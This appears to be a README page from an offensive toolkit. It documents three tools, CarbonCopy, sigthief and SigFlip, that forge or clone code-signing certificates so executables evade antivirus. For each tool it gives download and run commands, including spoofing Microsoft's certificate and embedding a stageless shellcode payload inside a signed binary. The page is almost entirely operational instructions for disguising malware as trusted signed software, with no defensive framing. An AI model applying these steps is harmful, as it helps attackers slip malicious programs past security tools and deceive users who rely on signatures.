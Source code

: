 ## CarbonCopy.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|CarbonCopy|A tool which creates a spoofed certificate of any online website<br />and signs an Executable for AV Evasion. Works for both Windows and Linux|User Land|To be executed under Linux|

**download Script:**
```shell
wget https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/CarbonCopy.py -O CarbonCopy.py
```

**prerequisites:**
```shell 
apt-get install osslsigncode
pip3 install pyopenssl
```

**execute:**
```python   
python3 CarbonCopy.py www.microsoft.com 443 prometheus.exe signed-prometheus.exe
```

<br />

## sigthief.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|sigthief|A tool to sign an Executable for AV Evasion.<br />It clones signcheck.exe to sign the new binary|User Land|Dependencies: python3|

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/sigthief.py" -OutFile "sigthief.py"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/signcheck.exe" -OutFile "signcheck.exe"
```

**execute:**
```python   
python Sigthief.py -i "sigcheck.exe" -t "prometheus.exe" -o "signed-prometheus.exe"
```

<br />

## SigFlip.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|SigFlip|A tool to sign an Executable for AV Evasion.|User Land|[Author: @med0x2e](https://github.com/med0x2e/SigFlip)|

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/SigFlip.exe" -OutFile "SigFlip.exe"
```

**execute:**
```powershell 
#Help
.\SigFlip.exe -h

#Sign original PE
.\SigFlip.exe -b "original.exe" "Signed-original.exe"

#build Signed Shellcode Executable { embebbed shellcode.bin on Signed-original.exe }
.\SigFlip.exe -i "original.exe" "x64-stageless.bin" "Signed-original.exe"
```
